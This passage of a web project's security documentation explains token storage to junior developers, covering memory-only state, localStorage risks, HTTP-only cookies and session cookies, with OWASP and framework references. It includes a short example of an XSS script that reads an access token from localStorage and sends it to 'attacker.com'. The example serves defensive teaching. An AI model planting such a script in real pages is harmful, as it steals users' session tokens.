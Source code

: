 - **Backend Implementation Guide**: `skillsync-be/notes/remember_me_backend_implementation_guide.md`
- **Frontend Changelog**: `skillsync-fe/changelogs/Oct082025.md` (735 lines, complete Phase 1 & 2)
- **Backend Changelog**: `skillsync-be/changelogs/Oct082025.md` (514 lines, complete Phase 1 & 2)
- **Phase 1 & 2 Summary**: `PHASE_1_2_IMPLEMENTATION_COMPLETE.md`
- **Copilot Instructions**: `.github/copilot-instructions.md` (AI agent guide)

### External References

- **OWASP XSS Prevention**: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- **OWASP Authentication**: https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- **HTTP Cookies (MDN)**: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- **React Security Best Practices**: https://react.dev/learn/security
- **Next.js Security**: https://nextjs.org/docs/app/building-your-application/configuring/security

---

## 👥 For Junior Developers

### Key Concepts Explained

**1. What is Memory-Only Storage?**
- **Simple explanation**: Data stored in RAM, deleted when page refreshes
- **Technical**: React `useState` stores data in JavaScript heap memory
- **Storage location**: Browser process memory (not disk)
- **Lifetime**: Until page refresh, tab close, or component unmount
- **Security**: Cannot be stolen via XSS that persists across sessions

**2. Why NOT use localStorage for Tokens?**
- **Simple explanation**: localStorage is like a public bulletin board - anyone can read it
- **Technical**: `localStorage.getItem()` accessible to ANY JavaScript on the page
- **Risk**: XSS attack can steal tokens and send to attacker's server
- **Example attack**:
  ```javascript
  // Malicious script injected via XSS
  const stolen = localStorage.getItem('accessToken');
  fetch('https://attacker.com/steal', { body: stolen });
  ```

**3. What are HTTP-Only Cookies?**
- **Simple explanation**: Cookies that JavaScript cannot read or write
- **Technical**: `HttpOnly` flag prevents `document.cookie` access
- **Set by**: Server via HTTP response headers (NOT JavaScript)
- **Read by**: Server only (browser sends automatically)
- **Security**: XSS attacks cannot steal HTTP-only cookies

**4. Why Session Cookies for Default?**
- **Simple explanation**: Safest option - deleted when browser closes
- **Technical**: Cookie with no `Max-Age` or `Expires` attribute
- **Use case**: Public computers, shared devices, cautious users
- **Security**: Even physical access to computer won't reveal token after browser closed
